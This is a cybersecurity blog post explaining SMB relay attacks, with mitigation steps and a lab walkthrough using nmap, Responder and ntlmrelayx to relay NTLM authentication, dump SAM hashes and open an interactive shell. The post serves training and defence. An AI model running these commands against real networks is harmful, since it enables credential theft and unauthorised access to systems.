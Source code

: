 ```yaml
---
title: "Understanding SMB Relay Attacks and Mitigation Techniques"
date: 2024-07-22
toc: true
toc_label: "Table of Contents"
toc_icon: "list-alt"
categories:
  - Blog
tags:
  - Cybersecurity
  - Offensive
  - Red Team
  - Penetration Testing
  - Ethical Hacking
  - Active Directory
  - SMB

 
tagline: "Secure Your Network: Uncovering SMB Relay Attacks and Effective Mitigation Strategies."
header:
  teaser: assets/images/tcm-academy/smb-relay-0.png
  overlay_filter: rgba(0, 0, 0, 0.5)
  overlay_image: /assets/images/tcm-academy/smb-relay-0.png
  caption: "Photo credit: [**AI**](https://chatgpt.com/)"
---
```


## Introduction

In the world of network security, understanding various attack vectors is critical to safeguarding systems and data. One such attack is the SMB (Server Message Block) Relay attack, which exploits vulnerabilities in the SMB protocol commonly used in Windows environments. This article will explore what an SMB Relay attack is, the steps involved in executing such an attack, and mitigation strategies to reduce the associated risks. Additionally, I will include screenshots and steps from my lab demonstration using the Responder tool and NTLM Relay X.

<img src="/assets/images/tcm-academy/SMB_relay_attack_featured_image.png">

## What is an SMB Relay Attack?

An SMB Relay attack is a type of Man-in-the-Middle (MitM) attack where an attacker intercepts and relays SMB authentication requests to a target server. This allows the attacker to authenticate themselves on behalf of the victim without knowing their credentials. The attack takes advantage of weak or misconfigured SMB services that allow for relay attacks, particularly when SMB signing is not enforced.



## Steps Involved in an SMB Relay Attack

1. **Identify Hosts without SMB Signing**:
   - The attacker scans the network to identify hosts that do not have SMB signing enforced, making them vulnerable to relay attacks.

2. **Attacker Configures Responder to Relay Requests**:
   - The attacker sets up the Responder tool to capture and relay SMB authentication requests on the network.

3. **Run Responder**:
   - The attacker runs Responder to listen for and capture SMB authentication requests from network hosts.

4. **Attacker Setup Relay X**:
   - The attacker configures NTLM Relay X to relay the captured authentication requests to the target server.

5. **A Triggering Event Occurs**:
   - An event, such as a user attempting to access a network resource, triggers the SMB authentication process.
   - The attacker intercepts and relays the authentication request using NTLM Relay X.

6. **Relay Side: Hashes of the SAM Get Dumped**:
   - The relayed authentication request results in the dumping of hashes from the Security Account Manager (SAM) database on the target server.
   - The attacker can crack these hashes to reveal passwords.

7. **Interactive Shell with -i Command**:
   - The attacker can create an interactive shell using the `-i` command with NTLM Relay X, allowing for direct interaction with the target system.

8. **Send Commands with -c Option**:
   - The attacker can send specific commands to the target system by adding the `-c` option to NTLM Relay X.

## Mitigation Strategies for SMB Relay Attacks

1. **Enforce SMB Signing**:
   - Enabling SMB signing on all systems ensures that SMB packets are digitally signed, preventing tampering and relay attacks.
   - This can be configured via Group Policy:
     - `Computer Configuration -> Policies -> Windows Settings -> Security Settings -> Local Policies -> Security Options`
     - Enable "Microsoft network client: Digitally sign communications (always)" and "Microsoft network server: Digitally sign communications (always)".
     <img src="/assets/images/tcm-academy/smb-relay-1.jpg">

2. **Disable SMBv1**:
   - SMBv1 is an older version of the SMB protocol that is more susceptible to attacks. Disabling it reduces the attack surface.
   - This can be done via <a href="https://learn.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3?tabs=server#disable-smbv1-by-using-group-policy">Group Policy</a> or through Windows <a href="https://learn.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3?tabs=server">features settings</a>.

3. **Use Strong Authentication Methods**:
   - Implement multi-factor authentication (MFA) to add an extra layer of security, making it harder for attackers to exploit relayed credentials.

4. **Segment the Network**:
   - Network segmentation limits the spread of an attack by isolating essential systems and services from the rest of the network.

5. **Regularly Update and Patch Systems**:
   - Keep all systems and software up-to-date with the latest security patches to protect against known vulnerabilities.

6. **Monitor and Detect**:
   - Use network monitoring tools to detect unusual activities and potential MitM attacks.
   - Implement alerting mechanisms to respond quickly to suspicious behavior.

## Lab Demonstration: SMB Relay Attack Using Responder and NTLM Relay X

Below are the steps and screenshots from my lab demonstration of an SMB Relay attack:

1. **Identify Hosts without SMB Signing Enabled and Enforced**: Scanned the network to find vulnerable hosts.

```
nmap --script=smb2-security-mode.nse -445 <target IP address> -Pn
```

   ![Identify Hosts](/assets/images/tcm-academy/smb-relay-2.png)

2. **Create a targets file.**

```
sudo nano target.txt
```
   ![Identify Hosts](/assets/images/tcm-academy/smb-relay-3.png)


3. **Configure Responder to Relay Requests**: Set up Responder to capture and relay SMB authentication requests.

```
sudo mousepad /etc/responder/Responder.conf
```

   ![Configure Responder](/assets/images/tcm-academy/smb-relay-4.png)


Switch off SMB and HTTP

<img src="/assets/images/tcm-academy/smb-relay-5.png">


4. **Run Responder**: Executed Responder to listen for SMB authentication attempts.

```
sudo responder -I eth0
```

   ![Run Responder](/assets/images/tcm-academy/smb-relay-6.png)

5. **Setup NTLM Relay X**: Configured NTLM Relay X to relay captured credentials to the target server.

```
sudo python3 ntlmrelayx.py -smb2support -tf targets.txt 
```

   ![Setup Relay X](/assets/images/tcm-academy/smb-relay-7.png)

6. **Triggering Event**: Captured SMB authentication request when a user tried to access a network resource.
   ![Triggering Event](/assets/images/tcm-academy/smb-relay-8.png)

   <img src="/assets/images/tcm-academy/smb-relay-9.png">

7. **Dump SAM Hashes**: Relayed the authentication request and dumped the hashes from the SAM database.
   ![Dump SAM Hashes](/assets/images/tcm-academy/smb-relay-10.png)

8. **Interactive Shell**: Created an interactive shell using the `-i` command.

```
ntlmrelayx.py -tf targets.txt -smb2support -i
```

   ![Interactive Shell](/assets/images/tcm-academy/smb-relay-11.png)


 <img src="/assets/images/tcm-academy/smb-relay-12.png">     


9. **Send Commands**: Sent specific commands to the target system using the `-c` option.
```
ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```


   ![Send Commands](/assets/images/tcm-academy/smb-relay-13.png)

## Conclusion

Understanding and mitigating SMB Relay attacks is critical for maintaining the security of networked systems. By enforcing SMB signing, disabling SMBv1, using strong authentication methods, segmenting the network, keeping systems updated, and monitoring network activities, organizations can significantly reduce the risk of such attacks. The lab demonstration provided practical insights into how these attacks are executed and the importance of implementing robust security measures.

Feel free to reach out with any questions or comments on this topic. Stay secure!

